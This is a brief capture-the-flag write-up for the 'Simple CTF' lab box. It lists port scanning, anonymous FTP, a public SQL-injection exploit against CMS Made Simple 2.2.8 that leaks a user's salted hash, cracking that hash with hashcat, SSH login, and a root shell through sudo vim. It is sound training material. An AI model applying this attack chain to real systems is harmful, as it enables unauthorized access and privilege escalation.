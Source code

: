 # Simple CTF

### IP: 10.10.200.42

### PORTS

```
nmap -A
```
- 21
- 80
- 2222

### 21
- anonymous allowed
- pub/ForMitch.txt

### 80
- apache2 default
- /simple

#### /simple
- CMS made simple
- v2.2.8
 whenever  there is a CMS, exploitDB

### ExploitDB
- CVE-2019-9053 
- sqli for <v2.2.10
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

## Hashcat 
```
hashcat -a 0 -m 20 pass:hash rockyou
```
- password: secret


## SSH
```
ssh mitch@ip -p 2222
```
- user.txt : G00d j0b, keep up!

```
sudo -l
```
- /usr/bin/vim
    - it means I can try GTFOBin

## USER 2 : sunbath

## GTFOBIN

```
sudo vim -c ':!/bin/sh'
```
- root.txt : W3ll d0n3. You made it!

